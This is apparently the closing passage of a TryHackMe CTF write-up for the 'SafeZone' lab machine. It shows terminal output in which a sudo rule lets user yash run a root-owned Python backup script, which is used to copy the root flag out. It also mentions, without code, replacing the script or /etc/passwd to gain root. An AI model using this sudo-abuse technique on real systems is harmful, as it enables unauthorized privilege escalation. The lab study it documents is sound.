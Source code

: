 
Running sudo -l immediately revealed the path forward!

```
yash@safezone:~$ sudo -l
sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
yash@safezone:~$ ls -al /root/bk.py
ls -al /root/bk.py
ls: cannot access '/root/bk.py': Permission denied
yash@safezone:~$ 
```

After trying a few things with this bk.py I discovered it can just copy files to other locations, though it keeps their permissions. 
This being the case, all I had to do was to copy our root flag to yash's home directory and! Done! Root flag is ours!

```
yash@safezone:/home$ cd yash
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/flag.txt
Enter destination: /home/yash
Enter Password: root
yash@safezone:~$ ls
test.txt
yash@safezone:~$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash
Enter Password: 123
yash@safezone:~$ ls
root.txt  test.txt
yash@safezone:~$ cat root.txt 
THM{[REDACTED]}
```

We could root the machine by replacing bk.py itself with a bk.py of our own design that'd give us root permissions (since we can run it as root) or replace the /eetc/passwd file with one that contains another user with root permissions if we really wanted, but there is nothing else we need from this machine.

All in all I can say it was one of the best machines I've done on TryHackMe. I hope you've learnt something with this writeup!

Have a good one, and happy hacking!

< [Go Back](https://rondons.github.io/Journey-Into-Cyber/THMWriteups)

